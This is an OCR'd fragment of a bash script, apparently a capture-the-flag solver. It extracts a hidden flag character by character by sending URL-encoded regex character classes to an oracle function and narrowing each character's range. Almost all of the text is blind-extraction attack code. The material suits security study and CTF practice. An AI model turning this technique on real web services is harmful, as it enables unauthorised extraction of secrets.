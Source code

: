 ```bash
      a-c) T "$i" %5Ba-c%5D && { range=a-c; break; } ;;
      d-f) T "$i" %5Bd-f%5D && { range=d-f; break; } ;;
      h-j) T "$i" %5Bh-j%5D && { range=h-j; break; } ;;
      k-m) T "$i" %5Bk-m%5D && { range=k-m; break; } ;;
      n-p) T "$i" %5Bn-p%5D && { range=n-p; break; } ;;
      q-s) T "$i" %5Bq-s%5D && { range=q-s; break; } ;;
      t-v) T "$i" %5Bt-v%5D && { range=t-v; break; } ;;
      w)   T "$i" w && { printf w; return; } ;;
    esac
  done
  case "$range" in
    a-c)  T "$i" %5Ba-a%5D && { printf a; return; }
          T "$i" %5Bc-c%5D && { printf c; return; }
          printf b; return ;;            
    d-f)  T "$i" %5Bd-d%5D && { printf d; return; }
          T "$i" %5Bf-f%5D && { printf f; return; }
          printf e; return ;;
    h-j)  T "$i" %5Bh-h%5D && { printf h; return; }
          T "$i" %5Bj-j%5D && { printf j; return; }
          printf i; return ;;
    k-m)  T "$i" %5Bk-k%5D && { printf k; return; }
          T "$i" %5Bm-m%5D && { printf m; return; }
          printf l; return ;;
    n-p)  T "$i" %5Bn-n%5D && { printf n; return; }
          T "$i" %5Bp-p%5D && { printf p; return; }
          printf o; return ;;
    q-s)  T "$i" %5Bq-q%5D && { printf q; return; }
          T "$i" %5Bs-s%5D && { printf s; return; }
          printf r; return ;;
    t-v)  T "$i" %5Bt-t%5D && { printf t; return; }
          T "$i" %5Bv-v%5D && { printf v; return; }
          printf u; return ;;
  esac
}

upper_AW_at(){
  i=$1
  for c in A C D E F G H J K L M N O P Q R S T U V W; do
    cls=$(printf '%%5B%s%%5D' "$c")
    T "$i" "$cls" && { printf '%s' "$c"; return; }
  done
  printf '?'  # unlikely
}

high_at(){
  i=$1
  T "$i" w   && { printf w; return; }
  T "$i" %7B && { printf '{'; return; }
  T "$i" %7C && { printf '|'; return; }
  T "$i" %7D && { printf '}'; return; }
  T "$i" %7E && { printf '~'; return; }
  printf '?' 
}

flag=''
for ((i=1;i<256;i++)); do

  T "$i" %5E%24 && { echo; echo "FLAG: $flag"; break; }

  if   T "$i" %5B0-9%5D;   then ch=$(digit_at "$i")
  elif T "$i" %5Ba-m%5D \
     || T "$i" %5Bn-w%5D;  then ch=$(lower_aw_at "$i")
  elif T "$i" %5BA-M%5D \
```